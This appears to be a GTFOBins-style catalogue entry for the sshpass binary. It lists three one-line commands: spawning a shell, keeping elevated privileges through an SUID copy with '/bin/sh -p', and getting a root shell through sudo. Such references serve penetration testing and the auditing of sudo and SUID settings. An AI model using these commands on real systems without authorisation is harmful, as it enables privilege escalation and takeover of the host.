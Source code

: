 functions:
  shell:
    - code: sshpass /bin/sh
  suid:
    - code: ./sshpass /bin/sh -p
  sudo:
    - code: sudo sshpass /bin/sh
---

